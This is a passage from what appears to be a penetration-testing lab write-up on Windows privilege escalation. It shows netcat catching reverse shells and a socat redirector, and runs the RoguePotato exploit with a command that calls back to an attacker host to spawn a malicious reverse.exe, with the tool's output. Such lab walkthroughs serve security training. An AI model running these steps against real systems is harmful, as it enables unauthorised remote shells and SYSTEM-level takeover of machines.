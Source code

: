 Once an user will access system through RDP, we should get our reverse shell

```bash
joshua@kaligra:/opt/tools$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.96.135] 49834
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

## rogue potato

Start a listener on port 135 with `socat` on our attacker machine:

```bash
joshua@kaligra:/opt/tools$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.96.135:9999
[sudo] password for joshua:
```

Start another listener on port 4444/tcp and launch our malicious `reverse.exe` while logged in as `admin` user:

![](Pasted%20image%2020230731131648.png)

We receive our shell al `local service`

```bash
connect to [10.8.100.14] from (UNKNOWN) [10.10.96.135] 49919
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service

C:\Windows\system32>
```

In this session, use `RoguePotato` exploit:

```bash
C:\Windows\system32>C:\PrivEsc\RoguePotato.exe -r 10.8.100.14 -e "C:\PrivEsc\rev                                                              erse.exe" -l 9999
C:\PrivEsc\RoguePotato.exe -r 10.8.100.14 -e "C:\PrivEsc\reverse.exe" -l 9999

[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to                                                               connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-332836                                                              6b9097}
[*] IStoragetrigger written:104 bytes
```